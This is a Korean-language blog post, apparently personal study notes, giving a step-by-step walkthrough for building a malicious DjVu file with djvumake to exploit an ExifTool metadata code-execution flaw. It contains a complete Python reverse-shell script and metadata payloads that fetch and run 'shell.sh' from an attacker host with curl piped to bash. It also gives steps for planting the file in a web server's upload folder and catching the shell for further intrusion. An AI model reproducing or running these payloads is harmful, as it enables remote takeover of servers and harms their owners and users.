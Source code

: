 ```yaml
---
title:  "Exploit Tool: Djvumake "
excerpt: "Djvumake에 대해 자세히 공부해보자."

categories: tools
tags:
  - [djvumake, exfiltered, exiftool]

typora-root-url: ../../
 
date: 2025-08-27
last_modified_at: 2025-08-27
---
```



# djvumake 활용 Exploit 제작 및 사용법

## 1단계. djvumake 소개 및 설치
- **djvumake**는 DjVu 파일을 조립하는 도구로, 단일 페이지 DjVu 파일을 생성할 수 있음
- DjVu 파일 포맷은 주로 스캔 문서 저장용으로 텍스트, 이미지 등을 압축해 저장함
- Exploit에서는 DjVu 파일 내에 악성 코드를 심어 exiftool 같은 메타데이터 처리 도구를 통한 코드 실행에 활용
- 설치 명령어:
  ```bash
  sudo apt-get install -y djvulibre-bin
  ```

## 2단계. exploit 스크립트 준비

### (1) 리버스 쉘 스크립트(shell.sh) 작성
- 공격 대상 시스템에서 실행할 리버스 쉘 코드 생성 예시:
  ```bash
  #!/bin/bash
  python3 -c 'import socket,subprocess,os;
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
  s.connect(("공격자IP", 포트));
  os.dup2(s.fileno(),0);
  os.dup2(s.fileno(),1);
  os.dup2(s.fileno(),2);
  p=subprocess.call(["/bin/sh","-i"]);'
  ```

### (2) 메타데이터에 삽입할 명령어 파일 만들기 (exploit)
- exiftool 등에서 읽을 때 실행을 유도할 명령어 포함
- 예를 들어 curl을 이용해 shell.sh를 다운로드하고 실행하도록 삽입:
  ```
  metadata "\c${system ('curl http://공격자IP/shell.sh | bash')};"
  ```

## 3단계. djvumake로 악성 DjVu 파일 생성
- shell.sh(리버스 쉘 스크립트)와 exploit(메타데이터 실행 명령어)를 결합하여 악성 DjVu 파일 생성
- 실행 명령어 예시:
  ```bash
  djvumake exploit.djvu INFO=0,0 BGjp=/dev/null ANTa=exploit
  ```
- 이 명령어는 exploit 파일 내 명령을 포함하는 DjVu 파일을 생성

## 4단계. 악성 DjVu 파일 업로드 및 실행 유도
- 생성된 `exploit.djvu` 파일을 취약 웹 서버 혹은 대상 시스템의 업로드 폴더(예: `/var/www/html/subrion/uploads/`)에 복사
- 취약 시스템에서 exiftool 같은 메타데이터 분석 도구가 이 파일을 접근시 내부 명령이 실행될 수 있도록 대기
- 공격자는 리스너를 미리 실행하여 리버스 쉘 연결 대기

## 5단계. 리버스 쉘로 시스템 제어 획득
- 대상 시스템에서 악성 DjVu 파일이 처리되는 순간, 삽입된 쉘 명령이 실행되어 공격자에게 쉘 연결 전달
- 이후 권한 상승 공격 혹은 추가 침투 진행 가능

***

## 요약 및 주의사항
- djvumake는 DjVu 파일 조립용 도구이나 취약점 공격에 악용 가능
- 해당 공격은 exiftool 취약점과 결합해 사용함 (exiftool 메타데이터 처리 시 임의 코드 실행)
- 공격 성공 위해선 대상 시스템에 취약한 버전 exiftool 및 업로드 폴더 권한 필수
- 공격 시 curl로 shell.sh 다운로드 및 실행하는 방식이 가장 기본적이며, 환경에 따라 payload 변형 필요

***



# djvumake 명령어 및 상세 옵션

## 기본 사용법
```bash
djvumake output.djvu [옵션]
```
- `output.djvu`: 생성할 DjVu 파일 이름 지정
- 기본적으로 입력된 구성에 따라 단일 페이지 DjVu 파일 생성

## 주요 옵션

| 옵션           | 설명                                                  |
|----------------|-------------------------------------------------------|
| `BGjp=<파일 경로>` | 배경 이미지 파일 지정 (JPEG2000 형식 권장)                  |
| `ANTa=<텍스트>`  | 앤티(Annotate) 텍스트 추가, 메타데이터 등 삽입용               |
| `TXT=<텍스트 파일>` | 텍스트 콘텐츠를 포함한 파일 지정 (OCR 텍스트 등)                  |
| `INFO=<가로>,<세로>` | 가로 및 세로 이미지 크기 지정, 이미지 없는 경우 좌표 0,0으로 설정  |
| `NPg=<페이지 수>` | 페이지 수 지정 (기본 1 페이지)                               |
| `INCL=<파일 경로>` | 추가할 파일 포함                                           |

## 익스플로잇 활용 주요 옵션

- **`ANTa` 옵션에 익스플로잇 페이로드 삽입**  
  exiftool 메타데이터 해석 과정에서 실행될 명령어를 `ANTa` 파라미터 값에 삽입  
  ```bash
  djvumake evil.djvu ANTa="...악성 명령어..."
  ```

- **`BGjp` 옵션으로 악성 이미지 삽입**  
  JPEG2000 포맷 악성 이미지 파일을 삽입해 파일 크기/형태 변조 가능

- **`INFO=0,0`**  
  텍스트가 없는 빈 이미지 크기 설정 시 사용

## 예시 명령어
```bash
# 악성 페이로드 포함 DjVu 생성 (빈 이미지 + 악성 메타데이터)
djvumake exploit.djvu INFO=0,0 BGjp=/dev/null ANTa="curl http://attacker/shell.sh | bash"
```

## 참고 사항
- djvumake는 DjVu 파일을 조립하는 도구이므로, 악성코드 삽입은 메타데이터 해석 취약점을 악용하는 보조 수단이다.